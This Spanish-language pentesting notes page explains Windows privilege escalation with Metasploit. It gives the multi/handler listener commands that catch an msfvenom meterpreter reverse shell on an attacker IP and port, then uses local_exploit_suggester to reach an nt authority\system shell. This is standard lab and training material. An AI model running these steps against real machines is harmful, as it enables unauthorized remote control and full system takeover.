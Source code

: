 # 🪟 Windows

## Metasploit + Msfvenom&#x20;

Podemos escalar privilegios con metasploit en windows. En primer lugar deberemos de generar un payload con msfvenom ( [#reverse-shell-tcp-con-exe](../explotacion/msfvenom.md#reverse-shell-tcp-con-exe "mention")) y pasarlo a nuestra maquina victima.

Después desde la maquina atacante, nos ponemos a la escucha con metasploit a través de multi/handler. Deberemos de ejecutar los siguientes comandos:

{% hint style="warning" %}
Los valores de los comandos de Metasploit deben ser lo mismos con los que se ha generado el payload en msfvenom (.exe) que está en la maquina victima
{% endhint %}

```bash
msfconsole

use /multi/handler

set LHOST 192.168.1.12    # IP Maquina atacante

set LPORT 4444 # Debe ser el mismo puerto que el que hemos puesto en el payload de msfvenom

set PAYLOAD windows/meterpreter/reverse_tcp # Debe ser el mismo que el que hemos puesto en el payload de msfvenom

run
```

Ahora ejecutamos el payload en la maquina victima y obtenemos una sesión de meterpreter:

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Una vez en la sesión de meterpreter (NO EN LA CMD DE WINDOWS), ponemos "`background`" y "`search local_exploit_suggester`":

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Esta opción nos dará el exploit más adecuado para la escalada, lo seleccionamos "`use 0`" y miramos las opciones que tiene. En este caso, nos pide el ID de la sesión de meterpreter:

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ponemos el ID de la sesión (lo puedes averiguar con el comando "`sessions -l`"). Ejecutamos:

<figure><img src="../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora, nos aparecerá una lista en colores verde y rojo. Los payloads de color rojo deberemos de omitirlos y centrarnos en los de verde.

<figure><img src="../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

Cualquiera de estos podría funcionar (no está asegurado), usamos uno de ellos seleccionándolo:

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

Ahora, ajustamos los valores necesarios ("`show options`"). Si el modulo funciona obtendremos una sesión de meterpreter en la que podremos abrir una shell ("`shell`") como `nt authority\system`. En el caso de que no funcione volvemos atrás ("`back`") y probamos con otro
